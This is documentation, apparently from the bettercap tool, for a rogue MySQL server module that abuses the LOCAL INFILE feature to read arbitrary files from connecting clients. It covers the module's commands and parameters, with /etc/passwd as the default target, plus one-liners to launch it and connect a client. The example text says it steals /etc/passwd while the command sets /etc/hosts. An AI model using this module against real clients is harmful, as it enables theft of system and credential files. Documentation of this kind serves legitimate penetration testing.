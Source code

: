```yaml
---
title: "mysql.server (rogue)"
date: 2019-02-25T13:25:31+01:00
draft: false
weight: 4
---
```


A rogue MySQL server that can be used to exploit [LOCAL INFILE and read arbitrary files](/modules/ethernet/spoofers/) from the client.

### Commands

#### `mysql.server on`

Start mysql server.

#### `mysql.server off`

Stop mysql server.

### Parameters

| Parameter              | Default               | Description                                                                      |
| ---------------------- | --------------------- | -------------------------------------------------------------------------------- |
| `mysql.server.infile`  | `/etc/passwd`         | File you want to read. UNC paths are also supported.                             |
| `mysql.server.outfile` |                       | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.address` | `<interface address>` | Address to bind the mysql server to.                                             |
| `mysql.server.port`    | `3306`                | Port to bind the mysql server to.                                                |

**Examples**

One liner to start the server and steal /etc/passwd from clients connecting to your Rogue MySQL server

    $ sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"

Now connect to your MySQL server and observe the file output on the Bettercap terminal

    $ mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile
